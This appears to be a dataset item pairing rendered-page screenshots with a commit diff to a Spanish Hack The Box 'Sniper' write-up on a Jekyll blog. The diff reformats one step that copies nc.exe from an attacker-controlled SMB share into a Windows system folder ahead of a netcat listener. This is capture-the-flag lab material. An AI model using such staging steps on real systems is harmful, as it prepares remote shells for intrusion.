

Before and after one commit to BlackCage/BlackCage.github.io, a Jekyll site: the page built from all_collections/_posts/2022-11-29-sniper-htb.md, in a window 1280 px wide. Shown: the part 3963-5883 px from the top of the page at 81% size, without its empty margins (283-996 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 5851 px from its top, so only the background shows below that.

Commit message:
Update 2022-11-29-sniper-htb.md

````diff
--- a/all_collections/_posts/2022-11-29-sniper-htb.md
+++ b/all_collections/_posts/2022-11-29-sniper-htb.md
@@ -125,7 +125,9 @@
 
 Bien, también nos copiaremos el `NC`, aunque en la carpeta que hayamos especificado antes:
 
-- `copy \\10.10.14.15\share\nc.exe \windows\system32\spool\drivers\color\`
+```
+copy \\10.10.14.15\share\nc.exe \windows\system32\spool\drivers\color\
+```
 
 Bien! Ya estamos listos, nos ponemos en escucha con `NC` por el puerto especificado anteriormente:
 
````
